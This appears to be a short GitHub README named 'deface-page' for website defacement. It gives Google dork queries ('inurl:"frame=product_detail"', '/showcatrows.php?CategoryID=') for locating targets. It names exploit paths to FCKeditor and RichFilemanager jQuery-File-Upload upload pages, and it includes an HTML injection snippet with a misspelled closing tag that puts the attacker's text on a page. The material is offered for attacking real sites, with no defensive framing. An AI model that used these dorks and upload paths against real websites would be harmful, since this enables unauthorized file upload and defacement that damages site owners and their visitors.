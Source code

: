 # deface-page
some deface page 

Dork : 

inurl:"frame=product_detail"

exploit site :

target.com/jscripts/FCKeditor/editor/filemanager/upload/test.html

inurl:"/showcatrows.php?CategoryID="

"><marquee><h1>Your text</h1></mmarque>

intext:dokumenary.net

Exploit : /assets/comp/RichFilemanager/scripts/jQuery-File-Upload/

